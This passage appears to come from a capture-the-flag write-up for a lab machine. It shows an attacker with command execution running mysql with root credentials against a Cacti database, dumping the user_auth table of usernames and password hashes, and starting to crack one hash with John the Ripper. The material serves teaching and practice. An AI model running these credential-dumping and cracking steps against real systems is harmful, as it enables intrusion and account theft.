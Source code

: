 This script is making a connection to the MySQL database and sending the command show tables. Let's see if we can also send that command.

### Send the same command from entrypoint.sh to the database:

```bash
Enter a command to execute: mysql --host=db --user=root --password=root cacti -e 'show tables'

Reponse from Victim:
Tables_in_cacti
aggregate_graph_templates
aggregate_graph_templates_graph
aggregate_graph_templates_item
aggregate_graphs
aggregate_graphs_graph_item
aggregate_graphs_items
automation_devices
automation_graph_rule_items
automation_graph_rules
automation_ips
automation_match_rule_items
automation_networks
automation_processes
automation_snmp
automation_snmp_items
automation_templates
automation_tree_rule_items
...continued...
```

Based on the `entrypoint.sh` script, we can tell that the `user_auth` table should contain the users.

### Print everything from the `user_auth` table:
```bash
Enter a command to execute: mysql --host=db --user=root --password=root cacti -e 'select * from user_auth'

Reponse from Victim:
[auth_user table info]
```

The information returned in the _auth_user_ table can be seen below.

| id  | username | password            | full_name      | email_address          |
| --- | -------- | ------------------- | -------------- | ---------------------- |
| 1   | admin    | admin123            | Jamie Thompson | admin@monitorstwo.htb  |
| 3   | guest    | 43e9a4ab75570f5b    | Guest Account  |                        |
| 4   | marcus   | $2y$10$vcrYth5YcCLl | Marcus Brune   | marcus@monitorstwo.htb |

### Cracking the Password Hash with John the Ripper
We can assume Marcus might be the user on the victim machine, and we have his password hash.
